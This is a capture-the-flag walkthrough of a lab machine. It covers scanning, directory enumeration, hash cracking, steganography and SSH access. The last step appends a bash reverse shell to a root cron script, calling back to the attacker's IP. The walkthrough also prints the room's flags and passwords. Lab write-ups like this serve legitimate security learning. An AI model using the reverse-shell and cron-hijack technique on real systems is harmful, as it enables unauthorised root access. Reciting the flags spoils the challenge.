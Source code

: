 lets get started
lets do a normal scan first 
```bash
rustscan -a 10.10.2.105
```

nmap was taking too much time so tried rustscan this time
```bash
Open 10.10.2.105:80
Open 10.10.2.105:6498
Open 10.10.2.105:65524
```

for getting service information used good old nmap
```bash
nmap -p80,6498,65524 10.10.2.105 -A
```
got nginix server running on port 80 

the website is the default page of nginix
so lets do a dirbuster to get the directories
```bash
gobuster dir -e -u http://10.10.2.105/ -w /usr/share/dirb/wordlists/common.txt
```
we got three directories
```bash
http://10.10.2.105/hidden               (Status: 301) [Size: 169]
http://10.10.2.105/index.html           (Status: 200) [Size: 612]
http://10.10.2.105/robots.txt           (Status: 200) [Size: 43]
```
didt get much so lets dir bursting on hidden directory also
found another endpoint
```bash
http://10.10.2.105/hidden/index.html           (Status: 200) [Size: 390]
http://10.10.2.105/hidden/whatever             (Status: 301) [Size: 169]
```
viewed the page source and got a hidden encrypted data
```bash
ZmxhZ3tmMXJzN19mbDRnfQ==
```
it is Base64 so launched cyberchef and got the flag - flag{f1rs7_fl4g}

Lets enumerate our next target
after visiting the site at port 65524 it was a apache default page and then i performed a dirrectory bursting on that but found nothing usual, 
```bash
gobuster dir -e -u http://10.10.2.105:65524/ -w /usr/share/dirb/wordlists/common.txt
```
so went to robots.txt and found a hash, it was a md5 i guess, use md5hashing.net to crack the hash and we got the flag - flag{1m_s3c0nd_fl4g}

then after observing the code of the page straight forward got the third flag and also a hidden p tag that has some kind of encrypted text so we to cyberchef and applied magic and got that it was a directory - /n0th1ng3ls3m4tt3r 

got another hash the lab has given a txt file we can use it to crack the hash
so used the john the ripper to crack the hash
```bash
john -format=gost -wordlist=./Downloads/easypeasy.txt hash
```

got the password - mypasswordforthatjob

also had an image which was suspicious and we have a password, it should be of something so used steghide to see it there is some hidden data
```bash
steghide extract -sf ./Downloads/Untitled.jpeg
```

we got a file it contains username and a password in binary we can just decrypt it
and boom we have ssh info i guess:
username: boring
password: iconvertedmypasswordtobinary

we can now ssh in the machine
we got into the machine and we found the user.txt but it is not in thm format and hits that it is roated, we can use rot decrypt sites to get the flag and we got it - flag{n0wits33msn0rm4l}

now lets escalate our privilages
so i was not getting it so read so articles  found one of them, so basically we have to check cron jobs and in that we found that there is a secret cron job, and we have the permission to edit it but we cannot run it, got the rev shell command that i found
```bash
cd /var/www && echo "bash -c 'exec bash -i &>/dev/tcp/10.17.12.148/4444 <&1'" >> .mysecretcronjob.sh
```

and waited for a few seconds and boom we got a root shell on our nc listener and now we can get to root directory and we got the flag

boom we solved the room !!!